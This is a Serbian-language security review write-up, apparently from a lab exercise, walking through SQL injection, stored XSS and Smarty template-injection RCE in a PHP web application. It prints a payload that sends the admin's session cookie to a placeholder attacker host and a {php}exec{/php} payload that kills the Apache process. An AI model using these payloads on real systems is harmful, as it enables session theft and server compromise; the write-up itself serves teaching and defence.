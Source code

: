 # Bezbednosni pregled koda i analiza

## Zaobilaženje mehanizma autentikacije

Analizom koda stranice **forgotusername.php** primećena je kritična ranjivost SQLi u mehanizmu za oporavak korisničkog imena.
Kod ne vrši validaciju korisničkog unosa i direktno ga ubacuje u SQL upit bez parametrizacije ili escaping-a.
```php
$ret = pg_query($db, "select * from users where username='".$username."';");
```

Ova ranjivost nam omogućava da izvršimo proizvoljne SQL komande. 

Uočili smo da aplikacija proverava da li korisnik ima admin privilegije tako što poredi njegov username sa stringom "admin".
Takođe, otkrili smo da aplikacija dozvoljava kreiranje korisnika sa već postojećim username-om, te možemo dodati novog admin korisnika.

## Eskalacija privilegija do administratorskog nivoa

Analizom koda za autorizaciju, primećeno je da se proverava samo da li je username korisnika admin. Budući da nema provere dupliranih username, uspešno smo kreirali nalog napadača pomoću SQL injekcije. Zbog diversifikacije, za metod eskalacije privilegija je ipak izabran XSS u vidu skripte koja bi se učitala samo u podacima koje vidi administrator - u tabeli korisnika. Svi korisnici mogu da ažuriraju opis svog profila pri čemu ne postoji validacija unosa. Kasnije se ti podaci koriste na nesiguran način prilikom učitavanja tabele pri čemu dolazi do **persisted XSS** ranjivosti.

```html
<script>fetch(`http://{attacker_host}:{port}/${{document.cookie}}`);</script>
```

*Exploit* sadrži jedan zahtev ka adresi napadača u kom se šalju *Cookies* koji sadrže **PHPSESSID** admina. Potom se ovaj *session id* koristi u novoj sesiji sa administratorskim pravima. Ranjivost je mogla da bude sprečena zaštitom od XSS (validacija unosa i bezbedno rukovanje ispisom vrednosti) ili sigurnom konfiguracijom *Cookies* sa ograničenjima za slanje samo preko *https* i zabranom pristupa polju *cookie* iz *JavaScript-a*.

## Izvršenje proizvoljnog koda na serveru

Analizom koda možemo primetiti par ranjivosti prilikom promene *Message of the day* poruke i njenog učitavanja. Za promenu poruke neophodno je da korisnik ima privilegije admina koje su dobijene u prethodnom zadatku. Poruka se pre slanja ne proverava i moguće je poslati bilo koji tekst ili kod koji se odmah unosi u *motd.tpl*. Ova ranjivost može dovesti do **XSS** i **RCE** napada. 

```php
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
        $message = $_POST['message'];

        if ($message !== "") {
            $t_file = fopen("../templates/motd.tpl","w");
            fwrite($t_file, $message);
            fclose($t_file);

            $success = "Message set!";
        } else {
            $error = "Empty message";
        }
    }
```

Druga bitna ranjivost je korišćenje **Smarty** template-a. Njegov posao je da procesuje sintaksu *motd.tpl* kako bi generisao finlani HTML. **Smarty** ima ugrađenu mogućnost da izvršava i PHP kod, što može biti korisno developer-ima ali takođe čini aplikacije ranjivim. 

**RCE** postižemo tako što kao poruku dana pošaljemo maliciozan kod poput:

```php
{php}exec('pkill -f apache2');{/php}
```

Poruka će se bez provere sačuvati. *MOTD* poruke se prikazuju svim korisnicima nakon prijave na sistem. Kada se korisnik prijavi i svaki put kada se učita index stranica, aplikacija će pokušati da mu prikaže poruku dana i maliciozni kod će zbog **Smarty**-ija biti izvršen. 
